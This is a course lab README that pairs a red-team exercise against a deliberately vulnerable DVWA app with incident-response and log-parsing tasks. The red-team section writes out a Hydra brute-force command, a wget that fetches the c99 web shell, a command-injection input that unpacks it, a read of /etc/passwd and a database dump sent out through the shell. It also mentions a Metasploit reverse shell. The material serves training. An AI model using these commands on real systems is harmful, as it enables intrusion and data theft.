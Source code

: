 # Week 4 - AuditD and logging
This week we are using DVWA for our incident response demo again. DVWA provides a vulnerable webapp that is ready to be hacked out of the box. Graylog will act as our logging server.

## Presentation
AuditD and logging systems: 

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### DVWA WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

### Graylog Webgui setup
0. Browse to `http://graylog.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: admin
0. 

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host http://dvwa.hackinglab.beer`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: ss -l -n -t
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Incident reponse demo
### Connecting to machine
0. ssh guardian@dvwa.hackinglab.beer -p5000

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.

## Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you won't receive any points.
0. Create a script in with a programming language of your choice to do everything in the “understanding the machine” section, items listed below, and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY

## Red team challenge
### Create red team challenge container
0. Browse to http://dvwa.hackinglab.beer:9999
0. Select "Login"
    1. Username: admin
    1. Password: password
0. Login
0. Select "DVWA security" on the left
0. Set the security level to "medium"

### Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:9090
* DO NOT ATTACK port 80

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html